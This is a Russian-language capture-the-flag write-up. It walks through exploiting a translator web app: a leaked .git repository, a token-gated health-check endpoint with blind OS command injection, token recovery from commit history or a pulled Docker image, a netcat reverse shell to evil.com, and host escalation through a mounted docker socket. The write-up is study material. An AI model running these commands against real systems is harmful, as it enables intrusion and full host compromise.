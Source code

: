 # Прохождение таска

## 1. Заходим на сайт, видим приложеньку переводчик

![plot](./screens/web-app.png)

## 2. Сканирование

dirb`ом находим эндпоинт /translate,  но он ничего не делает после долгих попыток фаззить на уязвимости

![plot](./screens/dirs.png)

## 3. Сбор утечки в миссконфигурации
Увидели .git в папке, дергаем его git-dumper утилитой сдампили весь git репозиторй, затем открываем либо в IDE,

![plot](./screens/git-find.png)

## 4. Изучение кода из утечки белым ящиком

Открываем папку и видим файлы репы: файлы deploy.sh, Dockerfile, папку app с сорцами приложения (где находим закрытый эндопоинт  /api/helthcheck где будет OS Command injection в функцию os.system(), но она за авторизацией через токен, который берется из энвов приложения, все секурно;)

![plot](./screens/app-src.png)

Находим в директории app  файл app.py и изучаем исходные коды приложения, после чего наталкиваемся на неизвестный эндпоинт. Наблюдаем, что принимаются только POST запросы и это эндпоинт хелсчека (команды проверки активности сервера), в котором есть Blind OS Injection, по скольку os.system() в отличии от subprocess не отдает вывод команды. Но, для того, чтобы передать команду в параметр status необходимо включить в POST-запрос еще и некий авторизационный токен, который разрешит отправить команду ОС. 
И здесь будет разветвление таска на 2 вектора:
1) простой — просто смотрим коммиты командой git log, делаем ресет на самый первый коммит и смотрим дифф изменения, и оттуда вытаскиваем захардкоженный токен. Этип способом решили все команды.
2) средний — в этом векторе мы после тщетных попыток найти токен из .env файла, так как в docker-compose.yml на самом деле видно, что есть некий файл .env, но здесь его в исходниках нет. Мы находим некий файл deploy.sh в корне приложения.

![plot](./screens/deploy-script.png)

И в этом векторе будет классическая атака на цепочку поставок (привет мой доклад, кто не видел вот ссылка https://t.me/TrickOrThreats/26  )

Нам необходимо подключить секрет (докер-токен) для авторизации в DockerHub и вытащить готовое приложение из приватного реестра образов. По сути, достаточно только запустить этот скрипт у себя, с установленным докером с правами sudo.

## 5. Получение шелла

![plot](./screens/leak-envs.png)

Получаем .env файл из спуленного контейнера с переменной, которая импортируется в скрипте app.py из переменных окружения TOKEN. А дальше подставляем его в запрос на реверс шелл. Здесь можно столкнуться с типичной проблемой, когда можно подумать, что reverse shell не работает, однако всего лишь навсего необходимо всегда использовать /bin/sh вместо /bin/bash, так как например в целевом контейнере, он на alpine linux, нет bash, более того, еще и нет curl, однако это не проблема, есть wget. Реверс  шелл можно сделать с помощью скачивания через wget скрипта с шеллом, назначением ему прав командой chmod +x shell.sh и исполнение. Однако, там есть проще вариант, там был netcat с ключом -e который позволит сразу получить реверс шелл.

```sh
curl -X POST -d 'status=nc+evil.com+1337+-e+/bin/sh&token=4f47ed71258da0145661731b871d7440d45c122716666ec95c72003e20e1df96' http://91.186.197.236/api/helthcheck
```

![plot](./screens/revshell.png)

Получаем шелл и осматриваемся. Можно сразу посмотреть первые команды + запустить linPEAS.sh, а так же исполнить команду df -h на наличие смонтированных дисков или папок.
И действительно, можно заметить, что здесь смонтирован docker-сокет, что говорит о том, что нам будет просто повысить привилегии посредством техники запуска нового контейнера и монтирование файловой системы (полностью весь /) вовнутрь запущенного контейнера, что позволить получить доступ к хосту. А для начала надо либо поставить curl или wget`ом запускаем команду на создание контейнера, ну или для особо ленивых, качаем docker-клиент скомпилированный в 1 бинарник и запускаем контейнер по технике, описанной выше.

![plot](./screens/privesc-find.png)

Далее для удобства делаем стабилизированный шелл

```sh

python3 -c "import pty;pty.spawn('/bin/sh')"
CTRL + Z
stty raw -echo;fg
Enter enter
```

переходим в /tmp директорию для гарантии, что мы можем туда записывать и выкачиваем docker-клиент на машину

![plot](./screens/docker-download.png)

и видим существующие образы, на основе которых мы можем запустить контейнеры, но мы пойдем дальше и просто спуллим контейнер такой, который нам по душе.

![plot](./screens/distr-pull.png)

А потом запустим наше повышение привилегий

![plot](./screens/privesc.png)

И мы запывнили систему.
